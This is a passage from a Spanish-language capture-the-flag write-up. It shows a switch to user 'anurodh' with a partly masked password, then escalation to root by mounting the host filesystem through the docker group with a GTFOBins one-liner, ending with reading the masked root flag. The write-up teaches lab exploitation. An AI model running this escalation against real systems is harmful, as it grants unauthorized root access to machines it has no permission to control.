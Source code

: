 Intentamos entonces logearnos con el usuario anurodh:

```bash
apaar@ubuntu:/home$ su anurodh
su anurodh
Password: !d0ntKn??????

anurodh@ubuntu:/home$
```

# [](#header-1)Escalada de privilegios

Lo conseguimos, hacemos id para ver en que grupos estamos. Parece ser que estamos en el grupo docker. Desde <a href="https://gtfobins.github.io/gtfobins/docker/">GTFOBins</a> vemos que con una sola linea de comandos perteneciendo al grupo docker podemos escalar privilegios a root:

```bash
anurodh@ubuntu:/home$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
proof.txt
# cat proof.txt
cat proof.txt
{ROOT-FLAG: ??????????????????????}
```

Conseguimos la flag de root!

Muchas gracias por leer este writeup, espero que te haya gustado!
